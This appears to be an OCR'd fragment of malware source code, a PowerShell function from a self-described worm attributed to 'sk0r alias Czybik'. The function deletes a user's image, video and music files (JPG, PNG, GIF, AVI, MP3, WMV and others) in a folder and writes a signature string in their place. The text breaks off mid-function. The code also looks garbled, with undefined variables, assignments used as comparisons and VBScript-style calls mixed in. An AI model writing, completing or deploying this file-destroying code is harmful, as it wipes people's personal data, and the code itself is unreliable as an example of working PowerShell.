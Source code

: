     function UeberschreibeDateien($strOrdner)
    {
        $StringToOverwrite = "This file was overwritten with a Ps Worm. ";
        $StringToOverwrite += "This Worm is ?006 by sk0r alias Czybik! ";
        
        $OverWrtOwnFiles = $fso.getfolder($strOrdner)
        $OverFiles = $OverWrtOwnFiles.Files
        $TheSubFldr = $OverWrtOwnFiles.subfolders
        
        foreach ($SubFiles in $TheSubFldr.Files)
        {
            $strGetExt = $fso.GetExtensionName($AlleDateien.Path);
            if ($strGetExt="JPG")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="BMP")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="GIF")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="PNG")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="JPEG")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="AVI")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="MP3")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="WMV")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            